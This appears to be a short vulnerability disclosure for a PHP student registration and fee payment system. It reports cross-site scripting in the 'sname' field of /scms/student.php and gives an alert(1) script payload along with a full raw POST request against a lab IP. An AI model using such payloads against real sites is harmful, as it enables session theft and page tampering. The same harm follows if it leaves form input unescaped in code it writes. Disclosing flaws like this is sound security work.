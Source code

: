 # student-registration-and-fee-payment-system - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15355/student-registration-and-fee-payment-system-php-mysql.html

Date: 2022-05-07

Vulnerability File: /scms/student.php

Vulnerability location: /scms/student.php, sname

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/scms/student.php HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
Content-Type: application/x-www-form-urlencoded
Content-Length: 175
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/scms/student.php?action=edit&id=5
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj
Upgrade-Insecure-Requests: 1

sname=%3CScRiPt%3Ealert%281%29%3C%2FsCrIpT%3E&contact=7566969650&grade=11&joindate=2020-02-14&about=Demo+About+Text&emailid=christinemoore%40gmail.com&id=5&action=update&save=
```

![](https://github.com/mikeccltt/0525/blob/main/student-registration-and-fee-payment-system/xss.gif?raw=true)
